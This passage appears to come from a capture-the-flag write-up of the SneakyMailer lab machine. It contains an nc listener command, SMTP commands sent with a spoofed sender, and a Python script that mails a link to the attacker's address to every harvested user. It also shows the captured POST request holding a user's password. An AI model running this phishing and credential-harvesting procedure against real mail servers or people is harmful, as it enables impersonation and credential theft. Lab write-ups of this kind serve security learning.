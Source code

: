 ## Phishing

From here we can try to phish some of the users using smtp. To do it manually we can use telnet to connect to port 25 with the command:
```
telnet 10.10.10.197 25
```
First we setup a listener on port 80:
```
sudo nc -nvlp 80
```
Then we can run the following commands for telnet:
```
MAIL FROM: ryaagard@sneakycorp.htb
RCPT TO: <{email of one of the users from the site}>
DATA
http://<Our tun0 IP>/
.
```
And we can see it says OK and that it is queued. But to not really guess the emails we can write a simple python script to send the email to each of the 57 users.
```
#!/usr/bin/env python3

from socket import *
import sys

mailserver = ("10.10.10.197", 25)
client = socket(AF_INET, SOCK_STREAM)
client.connect(mailserver)

def main():
	with open('emails.txt', 'r') as f:
		for email in f.readlines():
			email = email.strip()
			print(f"[~] Current email: {email}", end="\r")
			client.send('MAIL FROM: angelicaramos@sneakymailer.htb\r\n'.encode())
			client.send(f'RCPT TO: <{email}>\r\n'.encode())
			client.send('DATA\r\n'.encode())
			client.send('http://10.10.15.227/\r\n'.encode())
			client.send('.\r\n'.encode())
			response = client.recv(1024)

try:
	main()
except KeyboardInterrupt:
	sys.exit()
```
Then we run python3 send.py and after running it we can see in our nc listener that some user connected back with his password and email
```
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:54502.
POST /%0D HTTP/1.1
Host: 10.10.15.227
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```